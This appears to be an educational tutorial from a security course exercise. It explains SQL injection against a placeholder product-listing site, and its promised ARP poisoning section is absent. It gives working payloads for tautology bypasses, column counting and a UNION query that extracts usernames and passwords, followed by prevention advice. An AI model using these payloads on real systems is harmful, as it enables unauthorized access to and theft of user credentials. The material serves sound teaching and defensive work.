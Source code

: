 
# Cybersecurity Threats: SQL Injection and ARP Poisoning

## Disclaimer
This information is provided for educational purposes only. Understanding these attacks is crucial for developing effective defenses. Unauthorized access to or modification of computer systems is illegal and unethical. Always ensure you have explicit permission before performing any security testing.

---

## I. SQL Injection (SQLi)

### A. What is SQL Injection?
SQL Injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It typically involves an attacker sending malicious SQL code (payload) via an input field, which the application then includes in a database query. If not properly sanitized or parameterized, this injected code can alter the query's logic, allowing the attacker to:
*   Bypass authentication.
*   View, modify, or delete data.
*   Execute administrative operations on the database (e.g., shutdown DBMS).
*   In some cases, issue commands to the operating system.

The vulnerability lies in the web application's code, specifically how it constructs SQL queries based on user input, not in the SQL database itself.

### B. The Scenario (from TD Exercice 01)
Consider a web application with the following URL for displaying products in the "Gifts" category:
`https://insecure-website.com/products?category=Gifts`

This URL triggers the following SQL query:
**Original intended query:**
```sql
SELECT id, nom, category, price FROM products WHERE category = 'Gifts' AND released = 1
```
The application dynamically constructs this query, likely using a template like:
**Query template:**
```sql
SELECT id, nom, category, price FROM products WHERE category = "$category" AND released = 1
```
where `$category` is replaced by the user-supplied value from the URL.

### C. How to Perform SQL Injection (Process & Syntax)

**1. Verifying Vulnerability (TD Question 1)**
The simplest way to test for SQLi is to try to break the SQL syntax or inject a condition that is always true (a tautology).

*   **Input to test:** `'` (a single quote)
    *   **URL:** `https://insecure-website.com/products?category=Gifts'`
    *   **Resulting SQL:**
        ```sql
        SELECT id, nom, category, price FROM products WHERE category = 'Gifts'' AND released = 1
        ```
        This will likely cause a SQL syntax error because of the extra quote, indicating the input is being directly inserted.

*   **Input for Tautology (always true condition):** `' OR '1'='1`
    This attempts to close the string for `category` and add an `OR` condition that is always true. To ensure the rest of the original query doesn't interfere, we comment it out. Common SQL comment characters are `-- ` (note the space after `--`) or `#`.
    *   **Payload:** `Gifts' OR '1'='1' -- `
    *   **URL:** `https://insecure-website.com/products?category=Gifts' OR '1'='1' -- `
    *   **Resulting SQL:**
        ```sql
        SELECT id, nom, category, price FROM products WHERE category = 'Gifts' OR '1'='1' -- " AND released = 1
        ```
        The `-- ` comments out `AND released = 1`. The condition `'Gifts' OR '1'='1'` becomes `'Gifts' OR TRUE`, which is `TRUE`.
        If this query returns all products, or at least more products than just "Gifts", the site is vulnerable.

**2. Displaying All Products (TD Question 2)**
This is similar to the tautology test. The goal is to make the `WHERE` clause evaluate to true for all rows, or bypass the category filter entirely.
*   **Payload:** `anything' OR '1'='1' -- `
    *   **URL:** `https://insecure-website.com/products?category=anything' OR '1'='1' -- `
    *   **Resulting SQL:**
        ```sql
        SELECT id, nom, category, price FROM products WHERE category = 'anything' OR '1'='1' -- " AND released = 1
        ```
    This effectively retrieves all products because `'1'='1'` is always true and the `AND released = 1` part is commented out. The `released = 1` condition in the original query is also bypassed.

**3. Retrieving Data from Other Tables (UNION-based SQLi - TD Question 4)**
The `UNION` operator allows combining the result sets of two or more `SELECT` statements. For a `UNION` to work:
    *   Both queries must return the same number of columns.
    *   The data types of corresponding columns must be compatible.

The goal is to retrieve data from the `user` table: `user (id, name, utilisateur, password, type_account, date)`. The original query retrieves 4 columns: `id, nom, category, price`.

*   **Step 1: Determine the number of columns in the original query.**
    We can use `ORDER BY` or `UNION SELECT` with `NULL`s.
    *   Try `ORDER BY`:
        `https://insecure-website.com/products?category=Gifts' ORDER BY 1 -- ` (Should work)
        `https://insecure-website.com/products?category=Gifts' ORDER BY 4 -- ` (Should work if 4 columns)
        `https://insecure-website.com/products?category=Gifts' ORDER BY 5 -- ` (Should error if only 4 columns)
    *   Alternatively, using `UNION SELECT NULL` iteratively:
        `https://insecure-website.com/products?category=Gifts' UNION SELECT NULL -- ` (Error if >1 column)
        `https://insecure-website.com/products?category=Gifts' UNION SELECT NULL,NULL -- ` (Error if >2 columns)
        `https://insecure-website.com/products?category=Gifts' UNION SELECT NULL,NULL,NULL -- ` (Error if >3 columns)
        `https://insecure-website.com/products?category=Gifts' UNION SELECT NULL,NULL,NULL,NULL -- ` (If this works without error, there are 4 columns)

*   **Step 2: Craft the UNION query.**
    Assuming we found 4 columns. We want `name, utilisateur, password, type_account` from the `user` table. These are 4 columns, perfect. To ensure only results from our injected query are shown, we can make the first part of the `WHERE` clause false (e.g., by using a non-existent category).
    *   **Payload:** `nonexistentcategory' UNION SELECT name, utilisateur, password, type_account FROM user -- `
    *   **URL:** `https://insecure-website.com/products?category=nonexistentcategory' UNION SELECT name, utilisateur, password, type_account FROM user -- `
    *   **Resulting SQL:**
        ```sql
        SELECT id, nom, category, price FROM products
        WHERE category = 'nonexistentcategory' -- This part will return 0 rows from 'products'
        UNION
        SELECT name, utilisateur, password, type_account FROM user -- This part fetches from 'user'
        -- " AND released = 1 -- This is commented out
        ```
    The application will then display user names, usernames, passwords, and account types in the columns normally used for product ID, name, category, and price.

### D. Types of SQL Injection
*   **In-band (Classic) SQLi:**
    *   **Error-based:** Attacker forces the database to generate an error message that leaks information.
    *   **UNION-based:** (As shown above) Uses `UNION` to combine legitimate results with results from a forged query.
*   **Inferential (Blind) SQLi:** Attacker sends queries and observes the application's response and behavior to infer information, as no data is directly returned.
    *   **Boolean-based:** Injects a condition and observes if the page content changes (e.g., "product found" vs "product not found").
    *   **Time-based:** Injects a command that causes a time delay (e.g., `SLEEP(5)`), then observes if the response is delayed.
*   **Out-of-band SQLi:** Data is exfiltrated through a different channel (e.g., DNS or HTTP requests to an attacker-controlled server).

### E. Prevention and Mitigation
1.  **Parameterized Queries (Prepared Statements):** This is the most effective method. The SQL query structure is pre-compiled, and user input is treated strictly as data, not executable code.
2.  **Input Validation and Sanitization:**
    *   **Validation:** Check if input matches expected format/type (e.g., numbers, specific characters).
    *   **Sanitization:** Escape special SQL characters (e.g., `'`, `"`, `;`, `--`) in user input before including it in a query. This is a fallback, less robust than parameterized queries.
3.  **Principle of Least Privilege:** The database account used by the web application should only have the minimum necessary permissions.
4.  **Web Application Firewalls (WAFs):** Can detect and block common SQLi patterns but are not foolproof.
5.  **Regular Security Audits and Code Reviews.**

---

